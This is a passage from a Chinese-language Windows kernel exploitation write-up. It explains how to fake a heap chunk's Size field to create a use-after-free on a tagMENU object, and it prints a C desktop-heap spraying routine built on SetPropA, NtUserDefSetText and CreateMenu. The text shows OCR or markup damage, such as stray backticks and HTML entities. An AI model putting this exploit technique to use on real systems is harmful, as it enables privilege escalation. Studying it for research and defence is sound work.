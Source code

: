 ```
   +0x00f Code4            : UChar
   +0x008 AgregateCode     : Uint8B
```

我们这里想的是覆盖堆头的 Size 字段，伪造堆的大小，当然这里我们也需要绕过保护，先不管保护怎么绕过，如果我们在下一个堆块后面放置一个 tagMENU 结构，然后我们将整块给 free 掉，因为 tagMENU 句柄未变，所以我们这里会再次产生一个 UAF 漏洞，这里我先贴桌面堆喷射实现的代码

```
BOOL SprayObject()
`{`
    int j = 0;
    CHAR o1str[OVERLAY1_SIZE - _HEAP_BLOCK_SIZE] = `{` 0 `}`;
    CHAR o2str[OVERLAY2_SIZE - _HEAP_BLOCK_SIZE] = `{` 0 `}`;
    LARGE_UNICODE_STRING o1lstr, o2lstr;

    // build first overlay
    memset(o1str, 'x43', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
    RtlInitLargeUnicodeString(&amp;o1lstr, (WCHAR*)o1str, (UINT)-1, OVERLAY1_SIZE - _HEAP_BLOCK_SIZE - 2);

    // build second overlay
    memset(o2str, 'x41', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
    RtlInitLargeUnicodeString(&amp;o2lstr, (WCHAR*)o2str, (UINT)-1, OVERLAY2_SIZE - _HEAP_BLOCK_SIZE - 2);

    SHORT unused_win_index = 0x20;

    for (SHORT i = 0; i &lt; SHORT(MAX_OBJECTS - 0x20); i++)
    `{`
        // property list
        SetPropA(spray_step_one[i], (LPCSTR)(i + 0x1000), (HANDLE)0xBBBBBBBBBBBBBBBB);

        // overlay 1
        if ((i % 0x150) == 0)
        `{`
            NtUserDefSetText(spray_step_one[MAX_OBJECTS - (unused_win_index--)], &amp;o1lstr);
        `}`

        // menu object
        hmenutab[i] = CreateMenu();

        if (hmenutab[i] == 0)
            return FALSE;

        // overlay 2
        if ((i % 0x150) == 0)
            NtUserDefSetText(spray_step_one[MAX_OBJECTS - (unused_win_index--)], &amp;o2lstr);

    `}`

    return TRUE;
`}`
```
